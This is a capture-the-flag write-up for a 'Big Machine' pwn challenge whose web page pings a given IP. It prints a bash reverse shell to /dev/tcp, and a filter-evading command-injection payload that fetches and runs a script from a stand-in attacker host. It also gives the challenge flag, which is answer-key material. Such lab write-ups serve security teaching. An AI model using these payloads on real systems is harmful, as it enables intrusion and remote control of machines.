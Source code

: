 ```yaml
---
layout: writeup

title: Big Machine
difficulty: Hard
points: 500
categories: [Pwn]
tags: []

flag: CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352}
---
```


### Big Machine
* Author: Aakansh Gupta (Unknown)

Check the website on the given url

<img src="../images/big.png" />

It shows the pin result for given IPs.
Try and get a reverse shell on it.
Since most common commands are blocked, we try and send a script from attacked to the machine like: 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.130/4444 0>&1

```
We craft a special request to send this: ` 8.8.8.8;curl${IFS}-o${IFS}/tmp/x${IFS}YOUR_ATTACKER_IP:8000/s;chmod${IFS}+x${IFS}/tmp/x;/tmp/x `
We can use python http.server to send the file. At the same time keep the netcat listener open to accept the reverse shell.

After getting a reverse shell, try snoop around to find the flag. If you check the enviornment variables using `env` , you get the flag

<img src="../images/bigflag.png" />


### The flag found is:
## CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352}
